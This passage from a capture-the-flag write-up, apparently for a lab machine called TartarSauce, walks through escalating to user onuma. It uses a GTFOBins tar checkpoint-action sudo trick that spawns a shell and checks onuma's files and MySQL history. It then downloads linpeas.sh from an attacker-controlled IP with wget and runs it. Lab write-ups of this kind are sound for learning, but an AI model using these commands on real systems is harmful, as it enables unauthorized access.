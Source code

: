 Searching for the exploit steps in GTFObin, we find:

```bash
export TERM=xterm-color
sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

IT worked:

![image.png]({{ site.baseurl }}/assets/tartarsauce/image%2010.png)

Let’s start basic enumeration with this user:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)

ls -l
total 4
lrwxrwxrwx 1 root  root   9 Feb 17  2018 shadow_bkp -> /dev/null

```

We can’t list sudo privileges as we do not have user onuma’s password.

```bash
cat .mysql_history

_HiStOrY_V2_
create\040database\040backuperer;
exit

```

Let’s also check running processes:

```bash
ps -ef --forest
```

At this point, let’s upload [linpeas.sh](http://linpeas.sh) and see what it finds:

```bash
wget http://10.10.16.7/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

#interesting finds

-rwxr-xr-x 1 root root 1701 Feb 21  2018 /usr/sbin/backuperer                            
-rw-r--r-- 1 root root 16097 Jan 21  2021 /var/backups/onuma_backup_error.txt                                                                    
-rw-r--r-- 1 root root 219 Sep 10 06:02 /var/backups/onuma_backup_test.txt                                                                       
-rw-r--r-- 1 onuma onuma 11511296 Sep 10 06:02 /var/backups/onuma-www-dev.bak 

/usr/bin/gettext.sh 

╔══════════╣ Searching tmux sessions                                                                                                             
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-shell-sessions                                            
tmux 2.1                                                                                                                                         
                                                                                                                                                 
                                                                                                                                                 
/tmp/tmux-1000 
```
